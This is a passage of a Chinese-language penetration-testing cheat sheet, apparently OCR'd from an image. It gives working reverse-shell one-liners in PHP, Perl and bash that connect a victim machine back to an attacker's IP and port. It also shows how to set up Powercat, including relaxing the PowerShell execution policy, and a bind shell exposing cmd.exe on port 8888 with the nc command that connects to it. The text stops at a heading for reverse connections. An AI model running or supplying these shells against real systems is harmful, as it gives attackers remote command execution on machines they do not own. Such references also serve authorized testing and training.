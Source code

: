 ###### 2.php反弹shell

```php
php -r '$sock=fsockopen("攻击机ip",攻击机监听的端口);exec("/bin/bash -i <&3 >&3 2>&3");'
```

###### 3.perl反弹shell

```perl
perl -e 'use Socket;$i="攻击机ip";$p=攻击机监听端口;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

###### 4.bash反弹shell

```bash
bash -i >& /dev/tcp/192.168.1.4(攻击机ip)/6666 0>&1
将受害机上的输入与输出以TCP流的形式重定向到攻击机的6666端口
```

#### 3.Powercat

>   download：https://github.com/besimorhino/powercat

工具下载后需要导入powercat.ps1脚本后才可以正常使用powercat

执行

```powershell
Import-Module .\powercat.ps1
```

如果权限不够需要修改权限：

```powershell
Set-ExecutionPolicy RemoteSigned
```

部分参数：

```sh
-c 指定一个ip地址
-p 指定一个端口
-v 显示详情
-l 监听模式
-e 程序重定向
```

### 正向链接

```powershell
powercat -l -p 8888 -e cmd.exe -v
#这条命令的意思是把cmd.exe数据包发送给请求本机8888端口的主机
```

攻击机：

`nc 192.168.1.2 8888 -vv`

### 反向链接
